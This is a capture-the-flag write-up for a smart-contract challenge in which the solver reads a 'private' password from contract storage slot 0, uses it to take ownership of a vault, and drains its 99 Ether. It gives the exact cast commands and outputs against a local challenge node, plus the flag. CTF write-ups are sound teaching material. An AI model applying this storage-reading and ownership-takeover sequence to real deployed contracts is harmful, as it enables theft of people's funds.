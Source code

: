 # Prayvate Vault Write-up

## TL;DR
The goal of this challenge is to drain the target contract of its balance, this can be achieved by obtaining the vault password, transferring the ownership to ourselves, and then withdrawing all the Ether in the contract.

### 1 - Obtaining the Password
The password is stored in a private state variable in the target contract address, but making a variable `private` does not mean that it cannot be accessed from the outside world. Because of the transparent nature of the blockchain, all data stored within contracts, including private state variables, can be accessed by anyone who has access to the network.
The password will be stored in the contract storge, the storage of a contract is arranged as slots from 0 to 2^256, and because the password is the first state variable declared in the cotract, we will find it at slot number 0.

- We first get our target contract address:
```bash
$cast call 0x0Fd95c39DCD0ef038De7c285B4dB92BD0504742d "getTargetAddress()" --rpc-url http://localhost:8545/db01b9e4-c96b-4123-9b26-7b743061b69b
0x0000000000000000000000004bc94316265619348cbc7b791693f2dd2a2eb73d
```
- And then we obtain the vault password using the following command:
```bash
$cast storage 0x4bc94316265619348cbc7b791693f2dd2a2eb73d 0 --rpc-url http://localhost:8545/db01b9e4-c96b-4123-9b26-7b743061b69b
0x00000000000000000000000000000000cd8115b7bcd966b5e174868b7d30445d
```
So the password is `0xcd8115b7bcd966b5e174868b7d30445d` in bytes. (Yours will be different)

### 2 - Gaining Ownership
The `changeAccount()` function expects two arguments, so we need to call it with the vault password and our account address in order to transfer the vault's ownership to ourselves.
```bash
$cast send 0x4bc94316265619348cbc7b791693f2dd2a2eb73d "changeAccount(address,bytes16)" 0x9A0125306aDc57A34Bd192DC54CEAA7438EF589F 0xcd8115b7bcd966b5e174868b7d30445d --rpc-url http://localhost:8545/db01b9e4-c96b-4123-9b26-7b743061b69b --private-key 0x89281eddf83141d5522b692166ea51b8d125740d6bbf5fbf94374c7b26b1d151
```
```bash
$cast call 0x4bc94316265619348cbc7b791693f2dd2a2eb73d "owner()" --rpc-url http://localhost:8545/db01b9e4-c96b-4123-9b26-7b743061b69b
0x0000000000000000000000009a0125306adc57a34bd192dc54ceaa7438ef589f
```
We are `owner` !
### Draining the Balance
The contract's balance is set in the setup contract to 99 Ether, so we will send this amount of ether to our address.
```bash
$cast send 0x4bc94316265619348cbc7b791693f2dd2a2eb73d "safeWithdraw(uint256)" 99 --rpc-url http://localhost:8545/db01b9e4-c96b-4123-9b26-7b743061b69b --private-key 0x89281eddf83141d5522b692166ea51b8d125740d6bbf5fbf94374c7b26b1d151
```
Congrats, you're now rich !

## Flag
`shellmates{pr1v4CY?__0R_PR4Y_tH4t_THeY_w0n7_sEE?}`

